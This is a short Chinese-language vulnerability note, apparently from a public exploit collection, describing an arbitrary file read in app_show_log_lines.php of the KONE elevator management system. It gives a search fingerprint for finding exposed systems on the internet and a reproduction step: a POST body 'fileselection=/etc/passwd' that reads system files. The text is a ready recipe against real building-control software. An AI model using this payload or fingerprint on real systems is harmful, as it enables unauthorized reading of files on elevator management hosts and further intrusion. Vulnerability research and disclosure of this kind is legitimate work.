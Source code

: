 # 

# KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

## 漏洞描述

KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞

## 漏洞影响

```
KONE 通力电梯管理系统
```

## 网络测绘

```
"KONE Configuration management"
```

## 漏洞复现

主页面

![image-20220519184439370](./images/202205191844461.png)

发送POST请求包

```
fileselection=/etc/passwd
```

![image-20220519184600379](./images/202205191846469.png)
